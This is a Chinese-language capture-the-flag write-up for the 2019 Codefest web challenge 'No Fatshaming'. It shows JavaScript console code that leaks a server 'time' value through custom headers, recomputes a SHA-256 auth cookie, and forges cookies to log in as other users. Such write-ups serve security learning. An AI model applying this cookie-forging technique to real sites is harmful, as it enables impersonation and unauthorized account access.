 難度 :  :star::star:
  
![question](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic1.png)
![question2](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic2.png)
![question3](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic3.png)
![question4](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic4.png)
![question5](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic5.png)

解題流程: <br>
        很簡潔的網頁, 只有登入和註冊, 登入後什麼東西都沒有 <br>
        用 sqlmap 和 xss 都沒有結果, 只能開始看看前端的 code <br>
        發現它引入一個客製化的 challenge.js <br>
        ![bug](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/bug.png)<br>
        進去一看發現是認證的 code , 認證 code 寫在前端往往不怎麼安全 <br>
        看一下 code 寫些什麼 <br>
        首先, 命名的方式很差所以先[美化](http://www.jsnice.org/)一下<br>
        美化後的結果放在 nice.js <br>
        從 nice.js 得知, 當按下 Log in! 後會去執行 setup
```javascript=
$("#login-form")["submit"]((result) => {
    result["preventDefault"]();
    setUpUserAutosuggest();
  });
```
 setup  會去檢查註冊時間和 cookie 設的是否一樣
 ``` javascript=
 if (data["time"] != val) {
              config["failure"]();
}
```
一樣的話執行 login 否則執行 doLogin <br>
而 login 會檢查 id 和 cck <br>
其中, cck 由 factory 計算而來 <br>
因此, 思緒就清楚了, <b>我們要的是 id cck 和 time</b><br>
id 可以自行控制 , cck 由 id 和 time 決定 , 因此關鍵在 time <br>
而我們得知 time 會在 setup 被用到, 所以設計自己的 setup 並輸入到 console <br>
```javascript=
function setup(id) {
    $["ajax"]({
          "url" : "api/login/",
          "type" : "POST",
          "headers" : {
            "X-Cache-Command" : "META",
            "X-Cache-User" : id
          },
          "success" : (data) => {
                console.log(data);
            }
    });
}
```
( 什麼都不要檢查, 把接收到的 data 全部吐出來 )<br>
輸入 setup(1), 我們就拿到 time 了 <br>
接著我們透過 _build 幫我們設定 cookie <br>
```javascript=
function factory(spec) {
    var shaObj = new jsSHA("SHA-256", "TEXT");
    var existing = spec["id"] + " 000 114328 000 " + spec["time"];
    shaObj["update"](existing);
    var KongPluginsService = shaObj["getHash"]("HEX");
    return KongPluginsService;
}
function _build(value) {
    Cookies["set"]("id", value["id"]);
    Cookies["set"]("time", value["time"]);
    Cookies["set"]("cck", factory(value));
  }
```
因為 _build 會用到 factory 所以 factory 也要一併傳入 <br>
接著, 輸入 _build({"id":"1", "time": "剛剛接收到的"}) <br>
最後, 將 username 也就是 id 輸入 1, 按 Log in! 就能成功登入了 , 但 flag 在 id=6 的身上 <br>

